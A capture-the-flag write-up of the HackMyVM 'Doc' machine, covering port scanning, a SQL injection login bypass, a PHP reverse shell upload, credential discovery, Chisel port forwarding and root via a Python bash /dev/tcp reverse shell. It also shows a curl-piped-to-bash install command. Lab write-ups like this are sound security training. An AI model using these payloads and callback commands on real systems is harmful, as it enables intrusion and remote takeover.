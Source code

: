 ```yaml
---
title: "Doc - HackMyVM"
summary: "Difficulty: Easy 🟢"
---
```


<style>

h6 {
  text-align: center;
  font-style: italic;
  font-weight: normal;
  position: relative;
  top: -10px;
}

img {
    display: flex !important;
    margin: 0 auto !important;
    justify-content: center !important;
    border-radius: 14px;
    border: 2px solid #4a90e2;
    box-shadow: 0 2px 6px rgba(0, 0, 0, 0.1);
    transition: box-shadow 0.3s ease, transform 0.3s ease;
}
img:hover {
    box-shadow: 0 6px 12px rgba(0, 0, 0, 0.15);
    transform: scale(1.03);
}

</style>

[Machine Link](https://hackmyvm.eu/machines/machine.php?vm=Doc)

When starting the machine, it displays its **IP** address.

![1](/images/writeups/doc/1.png)
<h6>IP address of the victim machine</h6>

We perform a scan using the **NMAP** tool to see which ports the target machine has open.

```bash
nmap -sCV -n -Pn 192.168.18.189 -oN target
```

![2](/images/writeups/doc/2.png)
<h6>Port scanning with NMAP</h6>

And we observe that only **port 80** is open. We access the website hosted on the target machine and observe the following:

![3](/images/writeups/doc/3.png)

![4](/images/writeups/doc/4.png)

We click the '**Login**' link, but it doesn’t load since our machine can’t resolve the **domain**.

![5](/images/writeups/doc/5.png)
<h6>Domain doc.hmv</h6>

We need to add the domain **doc.hmv** to the ***/etc/hosts*** file, mapping it to the **IP address** of the target machine.

```bash
sudo nano /etc/hosts
```

![6](/images/writeups/doc/6.png)
<h6>Domain with its IP in /etc/hosts</h6>

And we access it again.

![7](/images/writeups/doc/7.png)

I experienced a bit and was able to access it through a SQL injection in the following way.

```sql
' or 1=1-- -
```
![8](/images/writeups/doc/8.png)
<h6>SQL Injection</h6>

And we **successfully gain access** without any issues.

![9](/images/writeups/doc/9.png)

I now decide to run a directory enumeration with [**Wfuzz**](https://github.com/xmendez/wfuzz) to check for any directories that might be useful.

```bash
wfuzz -c -u http://doc.hmv/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404,200
```

![10](/images/writeups/doc/10.png)
<h6>Result after enumerating directories</h6>

The directory ***/uploads*** could be useful if we can upload files. I search, and indeed, we can.

So, we are going to download a **PHP script** that, when the file is uploaded, will send us a **Reverse Shell**, allowing us to access the machine.

```bash
wget http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
```

```bash
tar -xf php-reverse-shell-1.0.tar.gz
```

We modify the information as instructed, and we are good to go.

![11](/images/writeups/doc/11.png)

For example, I am going to upload the file to the following location:

![12](/images/writeups/doc/12.png)

If it doesn't work there, try uploading it in other locations.

And with that, we have successfully gained access to the target machine.

![13](/images/writeups/doc/13.png)

I set up the **TTY** and enumerate the **users** on the machine.

```bash
grep /bin/bash /etc/passwd
```

![14](/images/writeups/doc/14.png)


There are two users: **bella** and **root**.

## Privilege escalation to Bella

While browsing the directories, I found a PHP file named ***initialize.php*** that contains **Bella**’s password.

![15](/images/writeups/doc/15.png)

We gain access to the **Bella** user account and obtain the user flag.

![16](/images/writeups/doc/16.png)

## Privilege escalation to Root

If we run **sudo -l**, we can see the following.

![17](/images/writeups/doc/17.png)

We are able to execute the **doc binary** with **root** privileges. Inspecting its strings reveals that, when executed, the binary starts a server on **port 7890**.

```bash
strings /usr/bin/doc
```

![18](/images/writeups/doc/18.png)

We see that it creates a web server.

![19](/images/writeups/doc/19.png)

Since we can’t access it directly through the browser, let’s set up **Port Forwarding** to forward **port 7890** from the target machine to **port 7890** on our local machine. We will use Chisel for this.

```bash
curl https://i.jpillora.com/chisel! | bash
```

And we also transfer the binary to the victim machine.

----
**Local machine:**

![20](/images/writeups/doc/20.png)

----
**Victim machine:**

![21](/images/writeups/doc/21.png)

----

And we grant it execute permissions.

```bash
chmod +x chisel
```

Then we run [**Chisel**](https://github.com/jpillora/chisel) with the following commands to set up **Port Forwarding**.

----
Local machine:

```bash
sudo chisel server --reverse -p 4444
```

![22](/images/writeups/doc/22.png)

----
Victim machine:

```bash
./chisel client 192.168.18.100:4444 R:7890:127.0.0.1:7890 &
```

![23](/images/writeups/doc/23.png)

----

Now that the server is running, accessing **127.0.0.1:7890** on our local machine should display the hosted webpage.

![24](/images/writeups/doc/24.png)

The web interface shows a list of **Python modules** and directories related to the **Python environment**, rather than individual **.py files**. It displays built-in modules and folders like ***/tmp*** and ***/usr/lib/python3.9***, without showing file extensions. To verify this, I will create a **Python file** named **abcd.py** in **Bella**’s ***/home*** directory to see if it appears in the listing.

![25](/images/writeups/doc/25.png)

![26](/images/writeups/doc/26.png)

Now, the file appears as expected. Next, we will proceed to send a **reverse shell** with **root privileges**.

First, we will create a file that I will call reverse.py with the following content:

```python
import os
os.system("bash -c 'bash -i >& /dev/tcp/192.168.18.100/7777 0>&1'")
```

![27](/images/writeups/doc/27.png)
<h6>Python Reverse Shell code</h6>

Then we run the **doc** binary as **root**:

```bash
sudo doc
```

![28](/images/writeups/doc/28.png)

We set up a listener on **port 7777** on our local machine to receive the **Reverse Shell**.

```bash
nc -lvnp 7777
```

And now we access the web and click on the file we created (***reverse.py***).

![29](/images/writeups/doc/29.png)

Now that we have received the **Reverse Shell** and are the **root** user, we can obtain the **root flag**.

![30](/images/writeups/doc/30.png)

And the machine is completely hacked.